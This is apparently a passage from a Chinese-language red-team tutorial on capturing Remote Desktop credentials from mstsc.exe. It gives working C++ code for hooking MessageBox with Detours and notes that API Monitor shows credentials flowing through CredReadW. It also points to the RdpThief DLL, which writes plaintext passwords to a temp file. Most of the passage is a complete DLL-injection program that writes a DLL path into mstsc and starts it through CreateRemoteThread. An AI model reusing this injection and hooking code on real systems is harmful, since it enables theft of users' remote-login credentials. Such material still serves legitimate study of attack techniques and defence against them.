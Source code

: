 打开程序包管理器控制台执行

```
Install-Package Detours
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibp4ZuWPgnqInibfFw3hamE2ic98MAe35fiaawDLYYmNHK2qep3TAZKAeuVA/640?wx_fmt=png)

然后导入. h 和. lib 文件即可。

```
#include <Windows.h>#include <detours.h>#pragma comment (lib,"detours.lib")static int(WINAPI* TrueMessageBox)(HWND, LPCTSTR, LPCTSTR, UINT) = MessageBox;int WINAPI OurMessageBox(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType) {    return TrueMessageBox(NULL, L"Hooked", lpCaption, 0);}int main(){    DetourTransactionBegin();    DetourUpdateThread(GetCurrentThread());    DetourAttach(&(PVOID&)TrueMessageBox, OurMessageBox);    DetourTransactionCommit();    MessageBox(NULL, L"11ccaab", L"11ccaab", 0);    DetourTransactionBegin();    DetourUpdateThread(GetCurrentThread());    DetourDetach(&(PVOID&)TrueMessageBox, OurMessageBox);    DetourTransactionCommit();}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpI6ibpS9mOPm6Clrgwibv5Gwvcib1aC1Ibv3pLibS7C0kicNmwRc4DgxPX0w/640?wx_fmt=png)

6.2 API Monitor 监控 mstsc
------------------------

附加到 mstsc 进程，然后监听

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpTwDaUlopKv0oKKTYZeibibWPYQV6J84rPTsAHcCibXlLOSaSnUcgc5G6g/640?wx_fmt=png)

可以看到 ip 存放于 CredReadW 方法中

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpI8voiagc4f2CfickLGzUVloPLfDLibH29YdhjImzhGAhib9p5emsC22V9g/640?wx_fmt=png)

6.3 RdpThief
------------

[RdpThief]：https://github.com/0x09AL/RdpThief 编译好是一个 DLL，当注入 mstsc.exe 进程时，它将执行 API 挂钩，提取明文凭据并将它们保存到 %temp%/data.bin 文件中。

6.4 dll 注入
----------

```
#include <Windows.h>#include <TlHelp32.h>#include <string>typedef void(*PFN_FOO)();int main(){    //获取快照    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);    PROCESSENTRY32 pe32;    DWORD pid = 0;    pe32.dwSize = sizeof(PROCESSENTRY32);    //查看第一个进程    BOOL bRet = Process32First(hSnap, &pe32);    while (bRet)    {        bRet = Process32Next(hSnap, &pe32);        if (wcscmp(pe32.szExeFile, L"mstsc.exe") == 0){            pid = pe32.th32ProcessID;            break;        }    }    //获取进程句柄    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);    HANDLE hDestModule = NULL;    //接下来找到该进程中kernel32.dll的基址    hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid);    MODULEENTRY32 mo32 = { 0 };    mo32.dwSize = sizeof(MODULEENTRY32);    bRet = Module32First(hSnap, &mo32);    while (bRet)    {        bRet = Module32Next(hSnap, &mo32);        wprintf(mo32.szExePath);        std::wstring wstr = mo32.szExePath;        if (wstr.find(L"KERNEL32.DLL") != std::string::npos){            hDestModule = mo32.modBaseAddr;            break;        }            }    LPVOID lpDestAddr = NULL;    if (hDestModule != NULL){        //获取本进程的kernel32地址        HMODULE hkernel32 = GetModuleHandleA("KERNEL32.DLL");        //计算函数的位置        LPVOID lploadlibrary = GetProcAddress(hkernel32, "LoadLibraryA");        //获取了目标进程中的loadlibrary的地址        lpDestAddr = (char*)lploadlibrary - (char*)hkernel32 + (char*)hDestModule;    }        //1.在目标进程开辟空间    LPVOID lpAddr = VirtualAllocEx(        hProcess,    //在目标进程中开辟空间        NULL,    //表示任意地址，随机分配        1,    //内存通常是以分页为单位来给空间 1页=4k 4096字节        MEM_COMMIT,    //告诉操作系统给分配一块内存        PAGE_EXECUTE_READWRITE        );    if (lpAddr == NULL){        printf("Alloc error!");        return 0;    }    DWORD dwWritesBytes = 0;    char* pDestDllPath = R"(C:\TestDLL.dll)";    //2.在目标进程中写入目标dll的路径    bRet = WriteProcessMemory(        hProcess,    //目标进程        lpAddr,    //目标地址    目标进程中        pDestDllPath,    //源数据    当前进程中        strlen(pDestDllPath)+1,    //写多大        &dwWritesBytes //成功写入的字节数        );    if (!bRet){        VirtualFreeEx(hProcess, lpAddr, 1, MEM_DECOMMIT);        return 0;    }    //3.向目标程序调用一个线程 创建远程线程 执行写入代码    HANDLE hRemoteThread = CreateRemoteThread(hProcess,    //目标进程        NULL,        0,        (LPTHREAD_START_ROUTINE)lpDestAddr,    //目标进程的回调函数        lpAddr,    //回调参数        0,        NULL        );    return 0;}
```